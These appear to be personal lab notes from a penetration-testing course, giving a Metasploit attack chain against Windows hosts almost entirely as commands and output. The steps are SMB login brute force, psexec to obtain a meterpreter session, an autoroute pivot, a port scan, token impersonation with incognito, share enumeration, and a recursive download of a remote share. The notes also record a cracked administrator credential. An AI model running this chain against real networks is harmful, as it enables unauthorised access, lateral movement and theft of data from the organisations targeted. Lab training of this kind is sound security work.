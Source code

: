 
```
msfconsole > smb_login 
bruteforce to get credential
```

ELS-WIN7
administrator:password

```
msfconsole > psexec 

	run autoroute -s 172.30.111.0/24
	ctrl+z
use auxiliary/scanner/portscan/tcp
	port 139,445
	threads 10
	rhost <172.30.111.0/24>
	run
172.30.111.10 > 139,445 open
```

> back to the meterpreter session
use incognito
list_tokens -u
impersonate_token administrator
background session

```
use smb_enumshares
msf6 auxiliary(scanner/smb/smb_enumshares) > run

[-] 172.30.111.10:139     - Login Failed: Unable to negotiate SMB1 with the remote host: Not a valid SMB packet
[*] 172.30.111.10:445     - Windows XP Service Pack 3 (English)
[+] 172.30.111.10:445     - My Documents - (DISK) 
[+] 172.30.111.10:445     - IPC$ - (IPC) Remote IPC
[+] 172.30.111.10:445     - C - (DISK) 
[+] 172.30.111.10:445     - ADMIN$ - (DISK) Remote Admin
[+] 172.30.111.10:445     - C$ - (DISK) Default share
[+] 172.30.111.10:445     - FooComShare - (DISK) 
[*] 172.30.111.10:        - Scanned 1 of 1 hosts (100% complete)
```

get back to shell
```
net use K: \\172.30.111.10\FooComShare
K:
dir
```


- background terminal

```
meterpreter > download K:\\ Target -r
```
